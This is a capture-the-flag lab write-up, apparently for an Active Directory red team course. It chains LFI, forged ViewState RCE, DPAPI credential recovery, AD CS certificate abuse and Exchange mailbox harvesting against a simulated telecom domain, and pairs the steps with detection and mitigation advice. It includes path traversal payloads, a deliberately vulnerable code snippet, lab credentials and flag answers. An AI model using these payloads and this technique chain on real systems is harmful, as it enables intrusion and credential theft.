






# CyberWarFare Labs — Active Directory Red Team Specialist (AD-RTS)



## Objective

To conduct a targeted cyber operation against “TELECOM INC.” with the primary goal of
compromising the critical servers and exfiltrating sensitive data (e.g., financial records,
internal communications). The operation will simulate a telecom motivated Advanced
Persistent Threat (APT) attack, leveraging advanced tradecraft to evade detection while
achieving mission objectives. Access to the internal environment is provided and starts
in an authenticated fashion.

### Scope of Engagement:
**1. Target:**

- **Primary Objective:** Gain unauthorized access to the TELECOM INC critical
servers.
- **Secondary Objective:** Extract sensitive data (PII, account details, internal
memos).
- **Initial Access IP Address :** 10.5.2.10
---
**2. Tactics & Techniques** (Simulated APT Approach):

- **Initial Access:**
■ Exploiting public-facing services via malicious viewstate
- **Privilege Escalation:**
■ Sensitive information disclosure
■ Certificate service abuse
- **Lateral Movement:**
■ Move to Domain Controller
■ Abuse Exchange Server
- **Data Exfiltration:**
■ Stealthy data compression & exfil via encrypted channels.
---
**3. Rules of Engagement (ROE):**
- **Avoid disruption:** Do not crash systems or trigger incident response
unnecessarily.
- **Legal compliance:** Operate under authorized red team agreements.
---
**4. Deliverables:**
- **Post-Compromise Report:**
■ Attack timeline & techniques used
■ Security recommendations (patch weak credentials, MFA
enforcement).
■ [IMP] Hack & Collect Flags from the path.
---

## Reconnaissance
```bash
└─$ cat 10.5.2.10  
# Nmap 7.95 scan initiated Tue Nov 25 14:00:20 2025 as: /usr/lib/nmap/nmap -sCV -T4 -o10.5.2.10 10.5.2.10
Nmap scan report for 10.5.2.10
Host is up (0.46s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Telecom Solutions Inc.
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-25T19:01:23
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 25 14:01:34 2025 -- 1 IP address (1 host up) scanned in 73.69 seconds
```





---
**Question 1:** What’s the VIEWSTATEGENERATOR Value present in the IIS Telcom web app?
**Answer:** CA0B0334

### Step 1 Explanation: Initial Reconnaissance (Nmap Scan)
**What:** Network scanning of target 10.5.2.10 using Nmap with service/version detection.

**Why:** Identify exposed services, versions, and potential entry points without authentication.

**How:**
- Command: `nmap -sCV -T4 10.5.2.10` (TCP SYN scan with service/version detection, aggressive timing)
- Discovered open ports: 80 (HTTP/IIS 10.0), 135 (RPC), 139 (NetBIOS), 445 (SMB), 5985 (WinRM)
- OS detected: Windows (likely Server 2016+)
- Key finding: IIS 10.0 running Telecom Solutions Inc. web app; TRACE method enabled (XST vulnerability potential)

**Security Issue:** IIS version publicly disclosed; risky HTTP methods enabled; multiple legacy services exposed (NetBIOS, RPC).

**Detection:** External port scans, sequential service probing from single source, unusual scan timing patterns.

**Mitigation:** Disable unnecessary services (NetBIOS, RPC if not needed); implement WAF/IDS; rate-limit external scanners; use non-standard ports; banner obfuscation.

---

### Step 2 Explanation: VIEWSTATEGENERATOR Extraction
**What:** Extract the unique VIEWSTATEGENERATOR value (CA0B0334) from the IIS application source code.

**Why:** ASP.NET ViewState requires a generator ID to construct valid serialized objects. This ID is used as part of the HMAC signing process.

**How:**
- Navigate to the IIS application home page (http://10.5.2.10)
- View page source (Ctrl+U in browser)
- Search for `__VIEWSTATEGENERATOR` hidden form field
- Extract value: `CA0B0334`

**Why This Matters:** This value is necessary but not secret (embedded in client HTML). It's the first piece of intel needed to craft a malicious ViewState that will be accepted by the server during deserialization.

**Security Issue:** Revealing the generator ID aids attackers in crafting valid payloads. Combined with exposed ValidationKey and algorithm, it enables RCE.

**Detection:** Abnormal page source requests, repeated parameter enumeration, bot-like behavior.

**Mitigation:** Change generator periodically; use complex/unique values per app instance; never rely on obscurity alone.

---








---
**Question 2:** Parameter name which is vulnerable to Local File Inclusion (LFI)?
**Answer:** report

---

### Step 3 Explanation: Local File Inclusion (LFI) Discovery
**What:** Identify that the `report` parameter accepts file paths without proper validation.

**Why:** Find a vector to read server-side files, specifically web.config containing cryptographic secrets.

**How:**
- Fuzz the application with common parameter names (report, file, path, page, document, etc.)
- Test with path traversal payloads: `?report=../web.config`, `?report=..\\web.config`, `?report=C:\Windows\win.ini`
- Successful response indicates vulnerable parameter
- Application attempts to read/display the requested file

**Why This Works:** Application developers sometimes build file paths dynamically without canonicalization:
```csharp
string filepath = "reports/" + request.QueryString["report"];
File.ReadAllText(filepath);  // VULNERABLE!
```

**Security Issue:** Direct user input used in file operations; no allowlist; no path validation.

**Detection:** 
- Unusual file path patterns in HTTP logs (../, ..\, absolute paths)
- File read errors (404, 500) following suspicious parameter values
- WAF alerts on path traversal signatures

**Mitigation:**
- Use allowlist of permitted files (whitelist approach)
- Canonicalize paths and reject traversal sequences
- Implement input validation (alphanumeric only + specific format)
- Least privilege file system permissions
- Store files outside web root

---

### Step 4 Explanation: Web.config Extraction via LFI
**What:** Use the LFI vulnerability to read the application's `web.config` file.

**Why:** web.config contains sensitive configuration including:
- Cryptographic keys (ValidationKey, DecryptionKey)
- Machine key settings
- Database connection strings
- Custom application settings
- Service credentials

**How:**
- Exploit: `?report=../web.config` or construct full path based on IIS directory structure
- Server reads and returns the raw XML configuration file
- Extract the following critical values:
  - `<machineKey>` element containing validationKey, validationAlg, decryptionKey, decryptionAlg
  - ValidationKey: `56AB7132992003EE87F74AE4D9675D65EED8018D3528C0B8874905B51940DEAF6B85F1D922D19`
  - Algorithm: `SHA1` (for HMAC signing)

**Why This Is Critical:** 
- ValidationKey + algorithm = ability to sign malicious ViewState
- Server trusts ViewState signed with this key
- Enables arbitrary object deserialization (gadget chain RCE)

**Security Issue:** 
- Configuration file accessible via web application
- Keys stored in plain text (no encryption at rest)
- No additional entropy or per-app key rotation

**Detection:**
- Access to web.config or other config files in HTTP logs
- File read anomalies following exploited paths
- Unusual access patterns to sensitive files

**Mitigation:**
- Store web.config outside web root
- Use Data Protection API (DPAPI) for sensitive keys
- Implement file access logging
- Use Azure Key Vault / AWS Secrets Manager for keys
- Restrict file system permissions (read-only for app pool)

---

## Exploitation Chain Overview
1. Recon of IIS site to extract VIEWSTATEGENERATOR (CA0B0334) and identify LFI parameter (report).
2. LFI to read web.config and obtain ValidationKey + algorithm (SHA1).
3. Craft signed malicious ViewState with ysonet to achieve code execution (PowerShell reverse shell) under Application Pool "root" on host Web-Srv.
4. Enumerate registry HKLM\SOFTWARE\TelecomApp and DPAPI-decrypt stored credential for tel_admin01 (T3l@Com#1).
5. Use tel_admin01 to enumerate AD CS (Certipy) discovering vulnerable templates (ESC1, ESC4) and HTTP enrollment (ESC8).
6. Request Badges / Tel_User certificates with UPN and SID of Administrator to obtain administrator.pfx.
7. Authenticate with certificate (PKINIT) to get Administrator TGT and NT hash (aad3...:bfb19bca...e32).
8. SMB / Scheduled Tasks enumeration -> retrieve task executing impersonate.ps1 exposing further creds (tel_ops1@telecore.ad / T3l@Net#2).
9. Leverage Exchange impersonation to access Administrator mailbox and extract sensitive drafts (VPN, DB, Router, FTP credentials).
10. Collect final flags / answers (Questions 1–12) and high-value secrets for lateral movement & potential exfiltration.

### Exploitation Chain Step Details
1. Recon (VIEWSTATEGENERATOR & LFI parameter): Initial web enumeration (source view + fuzzing parameters) uncovered the ViewState unique generator and an unsanitized "report" parameter enabling arbitrary file reads. These artifacts signal potential for deserialization abuse and path traversal to reach configuration secrets.
2. LFI to read web.config: Using the vulnerable parameter to request the application config file exposed cryptographic material (ValidationKey, algorithm) used by ASP.NET to sign ViewState, enabling integrity bypass for crafted payloads.
3. Malicious ViewState RCE: With key + algorithm, ysoserial fork generated a signed payload executing PowerShell. Lack of ViewState MAC hardening allowed arbitrary object deserialization, yielding a shell under the application pool identity.
4. Registry credential extraction (DPAPI): Post-shell, enumerating predictable software keys revealed a Base64 DPAPI blob. Because ProtectedDataScope was LocalMachine, decryption worked on the compromised host, revealing tel_admin01 plaintext password.
5. AD CS enumeration (ESC paths): Certipy find with newly gained user showed misconfigured templates (EnrolleeSuppliesSubject + ClientAuth) and HTTP enrollment (ESC8) plus dangerous ACLs (ESC4). This combination permits forging certificates for higher-privilege principals.
6. Certificate requests (Administrator identity): Abusing Tel_User / Badges templates, we supplied Administrator UPN + SID to obtain a valid PFX. Template settings did not restrict subject/SAN impersonation, enabling privilege escalation without password or Kerberos preauth attacks.
7. PKINIT authentication & hash retrieval: Using the forged certificate, Certipy performed smartcard logon (PKINIT) to obtain a TGT and extract NT hash for Administrator, giving full domain privileges and enabling classic lateral movement techniques (SMB, service abuse).
8. Scheduled Task & script credential leak: With admin access, enumeration of system tasks exposed a PowerShell script containing another service account credential in plaintext (tel_ops1). Operational automation stored secrets insecurely, expanding attack surface to Exchange.
9. Exchange impersonation data mining: The tel_ops1 account possessed ApplicationImpersonation on Administrator mailbox. Via exchangelib, we accessed draft/sent items leaking additional infrastructure credentials (VPN, DB, router, campaign FTP) facilitating broader compromise and potential data exfiltration.
10. Consolidation & flag capture: Aggregated all discovered secrets and answered lab questions, demonstrating multi-layer escalation from web foothold to domain admin and sensitive data exposure, mapping each action to technique identifiers for defensibility analysis.

### Question Explanations
Q1 VIEWSTATEGENERATOR: Extracted from page source; required to replicate valid ViewState structure.
Q2 LFI parameter (report): Parameter accepted file paths without sanitization, enabling web.config disclosure.
Q3 IIS machine name (Web-Srv): Returned by host artifacts and environment variables during shell session.
Q4 Application Pool (root): Process identity observed in shell context or IIS process listing; signifies execution privileges.
Q5 tel_admin01 credential: Registry stored DPAPI-encrypted password decrypted locally due to machine scope.
Q6 TelecomApp registry path: Enumerated exact key used to store service credentials.
Q7 tel_ops1 credential: Hardcoded in mailbox migration script executed by scheduled task.
Q8 LogPath value: Configuration dictionary exposing intended logging directory; potential artifact collection location.
Q9 Mailbox impersonation right: exchangelib test showed IMPERSONATION access (no delegate) enabling full mailbox operations.
Q10 PROD DB password: Found in draft email; operational leakage of production credentials.
Q11 Core Router username: Draft email with temporary maintenance credentials revealed network device admin user.
Q12 Marketing Campaign Server name (GlobalBlast): Derived from FTP credential emails referencing campaign server hostname.

## Credential & Secret Summary
- tel_admin01@telecore.ad: T3l@Com#1 (Registry DPAPI secret)
- tel_ops1@telecore.ad: T3l@Net#2 (Scheduled task script)
- VPN (field engineers): Password F1eldVPN@ccess$2024, PSK TelecomSecurePSK#2024
- PROD DB (sqlprod-01): billing_prod_user / SqlB1lling@2024!
- Core Router (juniper-core-01): netadmin_jnpr / Juniper$CorePass2024!
- FTP Marketing (ftp.globalblast.*): (Credentials referenced in mailbox – verify full server FQDN and username if needed)

## Key Vulnerabilities Mapped to MITRE ATT&CK
- Insecure ViewState (T1190 Exploit Public-Facing Application)
- Local File Inclusion (T1005 Data from Local System)
- Cleartext / DPAPI-stored credentials (T1552 Unsecured Credentials)
- Insecure AD CS templates (ESC1/ESC4/ESC8) (T1649 Steal or Forge Certificates)
- Misconfigured Scheduled Task leaking secrets (T1053 Scheduled Task)
- Exchange mailbox impersonation (T1098 Account Manipulation / Abuse of Privileges)
- Hardcoded credentials in scripts & emails (T1552.001)

## Defensive Mitigations
Application Layer
- Enable ViewState MAC validation with unique per-app keys; disable ViewState if not required. Enforce ASP.NET runtime v4 hardened defaults.
- Sanitize and whitelist file path parameters; implement canonicalization + deny traversal for report parameter.
Credential Hygiene
- Remove plaintext or reversible credential storage (scripts, registry). Use Managed Service Accounts or secret vault (e.g., Azure Key Vault).
- Rotate all exposed passwords immediately; enforce complexity + expiration for service accounts.
Active Directory Certificate Services
- Disable HTTP enrollment (enforce HTTPS + EPA); remove EnrolleeSuppliesSubject from templates unless required.
- Restrict template enrollment (Badges, Tel_User) to specific security groups; remove Client Authentication if not needed.
- Audit and remediate ESC4 (dangerous ACLs granting Full Control to non-admin users like tel_engineer01 / tel_admin01).
Exchange / Mail
- Limit impersonation rights; review RBAC assignments (Remove ApplicationImpersonation from tel_ops1 if not required).
- Implement DLP / scanning for credential leakage in drafts/sent items.
Scheduled Tasks & Scripts
- Review all tasks under C:\Windows\System32\Tasks and user profiles for credential artifacts; store logs & scripts with least privilege.
- Enforce code reviews: block committing secrets via pre-commit scanning.
Network & Infrastructure
- Rotate VPN PSK and implement certificate-based or MFA-based VPN auth.
- Rotate router admin credentials; adopt RADIUS/TACACS+ and disable shared temporary creds.
Monitoring & Detection
- Create detections for certificate requests containing high-privilege SIDs/UPNs.
- Alert on DPAPI Unprotect patterns and unusual reg query access to application keys.
- Monitor Exchange impersonation events (EWS logs) and unusual mailbox access volumes.

## Indicators of Compromise (Sample)
- Unexpected RPC certificate requests (Request IDs 23, 25) targeting Administrator SID.
- Access to HKLM\SOFTWARE\TelecomApp followed by DPAPI decryption.
- Execution of ysonet.exe / abnormal ViewState deserialization errors in IIS logs.
- Scheduled Task reading impersonate.ps1 or creation/modification events.
- Exchange EWS impersonation calls from tel_ops1 outside maintenance window.

## Recommended Immediate Actions (Prioritized)
1. Rotate all exposed credentials (service, VPN, DB, router, FTP) and revoke issued rogue certificates.
2. Disable vulnerable AD CS templates (Badges, Tel_User) pending ACL remediation.
3. Purge plaintext passwords from scripts / registry; implement secure secret storage.
4. Patch web app (fix LFI; enforce ViewState signing & validation; perform code review).
5. Audit mailboxes for further leaked secrets; implement transport rules to flag credential patterns.
6. Review delegation & impersonation assignments in Exchange and remove excess.
7. Implement continuous monitoring for cert enrollment anomalies + mailbox impersonation.

## Lessons Learned
- A single LFI + exposed cryptographic key chain enabled remote code execution and privilege escalation.
- Weak AD CS governance allowed full domain compromise without traditional Kerberos / DCSync attacks.
- Operational scripts and scheduled tasks are frequent sources of credential leakage.
- Mailbox drafts can contain high-impact secrets; enforce secure handling and automatic redaction.

## Tooling Used
- Nmap, ysonet (ysoserial fork), PowerShell (DPAPI Unprotect), Certipy, rpcclient, Impacket (psexec), exchangelib Python scripts, smbclient.

## Potential Hardening Checklist
- [ ] Remove/rotate all discovered secrets
- [ ] Harden AD CS (templates, HTTP off, review ACLs)
- [ ] Fix web app LFI & ViewState
- [ ] Implement secret scanning in CI/CD
- [ ] Restrict Exchange impersonation
- [ ] Centralize task script storage & remove creds
- [ ] Deploy EDR rules for certificate abuse / DPAPI extraction

## Closing Summary
The engagement demonstrated a chained attack from a medium-privilege web foothold to full domain admin via insecure web app configuration, exposed registry secrets, and vulnerable certificate templates. Subsequent mailbox impersonation revealed additional infrastructure credentials enabling lateral movement and potential data exfiltration. The outlined mitigations should be prioritized to prevent recurrence.

---
End of Lab 2 Write-up.

## Detailed Step-by-Step Explanations (Expanded)
Below each major action from the engagement is broken down to clarify Purpose, Technique, Why it Worked, Detection Opportunities, and Mitigations.

1. Nmap Recon on 10.5.2.10
   - Purpose: Identify exposed services (HTTP, SMB, WinRM) and potential attack surface.
   - Technique: Service/version detection (-sCV) to reveal IIS 10.0 and WinRM endpoint.
   - Why it Worked: Default service exposure; IIS homepage accessible without auth.
   - Detection: External/unauthenticated scanning patterns, multiple sequential port probes.
   - Mitigation: Limit exposed services; implement WAF / recon rate-limiting; banner obfuscation.

2. VIEWSTATEGENERATOR Extraction
   - Purpose: Gather application-specific token needed to build valid ViewState structures.
   - Technique: Source code review in browser / LFI file disclosure corroboration.
   - Why: ASP.NET embeds generator in page; no obfuscation.
   - Detection: Excessive source downloads, abnormal parameter enumeration.
   - Mitigation: Ensure ViewState MAC enforced and keys protected; do not rely on obscurity.

3. LFI via 'report' Parameter
   - Purpose: Read arbitrary server-side files to harvest secrets (web.config).
   - Technique: Path manipulation (e.g., direct file reference) without sanitization.
   - Why: Application failed to validate/normalize path input and allowed traversal or direct file read.
   - Detection: 404/500 spikes with crafted file path requests; WAF signature for path traversal.
   - Mitigation: Whitelist fixed filenames; canonicalize and reject traversal patterns; least file access.

4. Extraction of ValidationKey & Algorithm (SHA1)
   - Purpose: Obtain cryptographic material to forge signed ViewState payloads.
   - Technique: Reading web.config via LFI.
   - Why: Key stored in clear configuration accessible by vulnerable parameter.
   - Detection: Unexpected access to configuration files; file read anomalies in IIS logs.
   - Mitigation: Regenerate keys; prevent config disclosure; move secrets to secure stores.

5. Malicious ViewState Generation (ysonet / ysoserial)
   - Purpose: Achieve remote code execution by abusing insecure deserialization with correct signature.
   - Technique: Gadget chain (TextFormattingRunProperties) inside signed ViewState.
   - Why: Application accepted unsigned or attacker-controlled ViewState due to exposed signing key.
   - Detection: Long/abnormal __VIEWSTATE values; deserialization errors; outbound PowerShell.
   - Mitigation: Patch to latest framework; enable ViewStateUserKey; disable unsafe gadgets; input length checks.

6. PowerShell Reverse / Local Execution under IIS Pool 'root'
   - Purpose: Gain interactive command execution, pivot to OS-level enumeration.
   - Technique: Encoded PowerShell command executed server-side by worker process.
   - Why: Worker process privileges allowed registry and filesystem access.
   - Detection: w3wp spawning powershell.exe; script block logging anomaly; AMSI events.
   - Mitigation: Constrain language mode; block powershell.exe for app pool identity; EDR rule.

7. Registry Enumeration (HKLM\SOFTWARE\TelecomApp)
   - Purpose: Discover hardcoded credentials or encrypted secrets for lateral movement.
   - Technique: reg query executed under compromised context.
   - Why: Application stored credential using DPAPI machine scope as reversible secret.
   - Detection: Non-standard registry queries from IIS worker; sequence following web exploit.
   - Mitigation: Replace registry-stored passwords with managed identities / vault retrieval APIs.

8. DPAPI Unprotect of EncryptedPassword
   - Purpose: Recover plaintext tel_admin01 password without offline cracking.
   - Technique: ProtectedData.Unprotect (LocalMachine scope) in PowerShell.
   - Why: Machine scope decryptable by any process on same host; no additional entropy supplied.
   - Detection: API calls to CryptUnprotectData from w3wp/powershell chain.
   - Mitigation: Use user-scope with isolated service account; rotate credentials; remove reversible storage.

9. Certipy Enumeration (find) of AD CS
   - Purpose: Identify misconfigurations enabling certificate-based privilege escalation (ESC1/ESC4/ESC8).
   - Technique: RPC + LDAP enumeration of templates & CA properties.
   - Why: Templates broadly exposed; HTTP enrollment enabled; ACLs granted excessive rights.
   - Detection: Repeated template enumeration from non-admin account; unusual remote registry attempts.
   - Mitigation: Restrict enrollment, remove EnrolleeSuppliesSubject, disable HTTP enrollment, harden ACLs.

10. SID Discovery via rpcclient (lookupnames)
    - Purpose: Obtain Administrator SID for SAN injection in certificate requests.
    - Technique: RPC name lookup using recovered tel_admin01 credentials.
    - Why: RPC accessible; credentials valid; no SID restrictions.
    - Detection: Lookupnames from non-standard workstation; correlation with certificate requests.
    - Mitigation: Monitor RPC enumeration; limit low-privilege account network reach.

11. Malicious Certificate Requests (Badges / Tel_User)
    - Purpose: Forge certificate representing Administrator to perform PKINIT.
    - Technique: Supply UPN & SID in SAN with templates allowing subject override.
    - Why: Template flags + Client Authentication EKU + permissive ACL chain.
    - Detection: Template usage spike; high-privilege UPN in request from non-admin workstation.
    - Mitigation: Remove ClientAuth EKU where unnecessary; enforce manager approval; tighten ACL.

12. PKINIT Authentication & Hash Extraction
    - Purpose: Convert certificate to TGT then obtain NT hash for persistent DA access.
    - Technique: Certipy auth workflow using PFX file.
    - Why: KDC accepted forged cert; no restrictions on smartcard logon for Administrator.
    - Detection: Smartcard logon events (4768/4769) from atypical host; Kerberos unusual preauth path.
    - Mitigation: Enforce administrative account smartcard policies with hardware tokens; monitor anomalies.

13. SMB Access & Scheduled Task Enumeration
    - Purpose: Search for scripts / tasks leaking additional credentials.
    - Technique: smbclient to C$ share reading \Windows\System32\Tasks.
    - Why: Administrator hash provided full filesystem read; tasks stored in predictable path.
    - Detection: SMB administrative share access from unapproved host; file enumeration volume.
    - Mitigation: Restrict admin shares; enable SMB auditing and lateral movement alerts.

14. Retrieval & Analysis of impersonate.ps1
    - Purpose: Extract further service credentials and operational context (Exchange migration).
    - Technique: Plain text review of script pulled from Administrator downloads.
    - Why: Hardcoded secret stored unencrypted; task executed script regularly.
    - Detection: Access to sensitive scripts; script creation events; unusual reads of credential files.
    - Mitigation: Remove hardcoded secrets; adopt secure config management; code reviews.

15. Exchange Impersonation Verification (script.py)
    - Purpose: Confirm tel_ops1 privileges enabling broader mailbox access.
    - Technique: exchangelib DELEGATE vs IMPERSONATION attempts.
    - Why: RBAC configuration granted ApplicationImpersonation previously.
    - Detection: EWS operations with impersonation header from non-approved account.
    - Mitigation: Scope impersonation to service principals; periodic RBAC audits.

16. Bulk Mailbox Extraction (script2.py)
    - Purpose: Harvest sensitive data (credentials, infrastructure details) for lateral expansion.
    - Technique: Programmatic folder traversal (Inbox/Sent/Drafts) limited to recent items.
    - Why: Lack of monitoring/DLP for draft or sent scraping; impersonation rights enabled full access.
    - Detection: High-rate EWS folder enumeration; pattern of short-lived sessions reading multiple folders.
    - Mitigation: Implement mailbox access anomaly detection; least privilege; redact credential patterns.

17. Identification of Additional Infrastructure Secrets (VPN, DB, Router, FTP)
    - Purpose: Provide multiple pivot avenues (network, database, remote access).
    - Technique: Parsing extracted email bodies and drafts for credential markers.
    - Why: Operational practices embedding credentials in transient communications.
    - Detection: DLP keyword triggers (Password:, VPN:, PSK:); retroactive mailbox scanning.
    - Mitigation: Security training; automatic redaction, secret vault distribution channels.

18. Privilege Consolidation & Flag Documentation
    - Purpose: Summarize full compromise chain and validate lab objectives.
